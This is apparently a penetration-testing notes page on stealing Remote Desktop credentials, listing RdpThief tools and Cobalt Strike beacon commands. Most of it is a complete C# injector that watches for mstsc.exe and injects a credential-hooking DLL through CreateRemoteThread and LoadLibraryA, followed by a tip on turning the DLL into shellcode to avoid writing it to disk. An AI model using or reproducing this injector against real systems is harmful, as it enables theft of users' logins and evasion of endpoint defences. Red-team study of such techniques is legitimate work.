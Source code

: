```yaml
---
description: Remote Desktop Protocol
---
```


# RDP




## RdpThief

* [https://github.com/0x09AL/RdpThief](https://github.com/0x09AL/RdpThief)
* [https://github.com/passthehashbrowns/SharpRDPThief](https://github.com/passthehashbrowns/SharpRDPThief)
* [https://github.com/proxytype/RDP-THIEF](https://github.com/proxytype/RDP-THIEF)

Can be invoked with an aggressor [script](https://github.com/0x09AL/RdpThief/blob/master/RdpThief.cna) in beacon:

```
beacon> rdpthief_enable
beacon> rdpthief_dump
beacon> rdpthief_disable
```

Or with some custom code that waits for `mstsc.exe` to be run and loads the malicious library into it:

{% code title="RdpThiefInjector.cs" %}
```csharp
using System;
using System.Threading;
using System.Diagnostics;
using System.Collections.Generic;
using System.Runtime.InteropServices;
using System.Text;

namespace RdpThiefInjector
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            string dllName = @"C:\Temp\RdpThief.dll";
            HashSet<int> PIDs = new HashSet<int>();
            Console.WriteLine("[*] Joined the hunt for mstsc.exe processes...");
            while (true)
            {
                Process[] mstscProc = Process.GetProcessesByName("mstsc");
                if (mstscProc.Length > 0)
                {
                    for (int i = 0; i < mstscProc.Length; i++)
                    {
                        int processId = mstscProc[i].Id;
                        if (!PIDs.Contains(processId))
                        {
                            Console.WriteLine($"[+] Detected non-hooked process with PID={processId}");
                            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
                            IntPtr dllAddress = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                            IntPtr outSize;
                            bool res = WriteProcessMemory(hProcess, dllAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
                            if (res)
                            {
                                Console.WriteLine("[+] WriteProcessMemory succeeded!");
                            }
                            else
                            {
                                Console.WriteLine("[-] WriteProcessMemory failed :(");
                            }
                            IntPtr loadLibraryAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
                            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddress, dllAddress, 0, IntPtr.Zero);
                            if (hThread != null)
                            {
                                Console.WriteLine("[+] CreateRemoteThread succeeded!");
                                Console.WriteLine($"[*] Process {processId} is now hooked, look for creds in \"{System.IO.Path.GetTempPath()}\"");
                                PIDs.Add(processId);
                            }
                            else
                            {
                                Console.WriteLine("[-] CreateRemoteThread failed :(");
                            }
                        }
                    }
                }
                Thread.Sleep(5000);
            }
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
The DLL can be converted to shellcode with [ConvertToShellcode.py](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py) (sRDI approach) and then be [injected](/pentest/infrastructure/ad/av-edr-evasion/code-injection/process-injectors#classic-process-injection) into the target process. That would help to avoid dropping the DLL to disk.
{% endhint %}




## Abusing CredSSP / TSPKG

* [https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/](https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/)
